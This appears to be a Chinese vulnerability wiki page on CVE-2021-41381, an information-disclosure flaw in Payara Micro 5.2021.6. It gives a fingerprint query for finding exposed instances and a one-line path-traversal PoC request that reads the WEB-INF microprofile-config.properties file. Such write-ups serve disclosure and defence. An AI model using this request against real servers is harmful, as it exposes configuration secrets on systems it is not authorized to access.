 ```yaml
---
title: PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381
---
```


# PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

<a-checkbox checked>Payara Micro Community 5.2021.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Payara-Micro"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1633094689200-c5ef35c0-8611-4d3b-a900-d2c4ad2be72b.png)

验证POC

```java
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![img](/assets/PeiQi-Wiki/img/1633094812047-1a69a79c-0757-4941-b4da-b2763cbacc26.png)